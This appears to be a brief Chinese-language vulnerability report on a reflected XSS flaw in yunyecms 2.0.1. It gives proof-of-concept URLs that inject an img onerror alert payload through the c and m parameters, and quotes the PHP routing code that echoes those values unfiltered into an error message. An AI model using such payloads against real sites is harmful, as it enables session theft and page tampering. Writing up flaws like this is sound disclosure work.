


yunyecms前台存在反射型xss漏洞

http://127.0.0.1/yunyecms2.0.1/index.php?a=login&c=member&m=%3Cimg%20src=1%20onerror=alert`ss`%3E

http://127.0.0.1/yunyecms2.0.1/index.php?a=login&c=%3Cimg%20src=1%20onerror=alert`ss`%3E



代码分析：



可以看到输入c=xxx或者m=xxx时候,会将输入内容返回到页面上

所以定位

```
	private function load_controller($filename = '', $m = '') {
		if (empty($filename)) $filename = ROUTE_C;
		if (empty($m)) $m = ROUTE_M;
		$filepath = YUNYECMS_CORE.'app'.DIRECTORY_SEPARATOR.$m.DIRECTORY_SEPARATOR.$filename.'.php';
		if (file_exists($filepath)) {
			$classname = $filename;
			include $filepath;
			if(class_exists($classname)){
				return new $classname;
			}else{
			  exit('Controller file '.$filepath.' does not exist.');
 			}
		} else {
			exit('Controller file '.$filepath.' does not exist.');
		}
	}
}
```

$filename = '', $m = '',报错时会回显到页面，$filename = ROUTE_C; $m = ROUTE_M;跟进 ROUTE_C，ROUTE_M

```
if(empty($path)){
				$var["m"] = ROUTE_M;
				$var["c"] =
                    ROUTE_C;
                $var["a"] = ROUTE_A;
			}else{
				$pathsize=count($path);
				switch($pathsize){
					case 1: 
					$var["m"] = ROUTE_M;
					$var["c"] = ROUTE_C;
					$var["a"] = strtolower(array_pop($path));
					break;
					case 2:
					$var["m"] = ROUTE_M;
					$var["c"] = strtolower(array_pop($path));
					$var["a"] = strtolower(array_pop($path));
					break;
					case 3:
					$var["m"] = strtolower(array_pop($path));
					$var["c"] = strtolower(array_pop($path));
					$var["a"] = strtolower(array_pop($path));
					break;
				}
			}
```

输出无过滤。
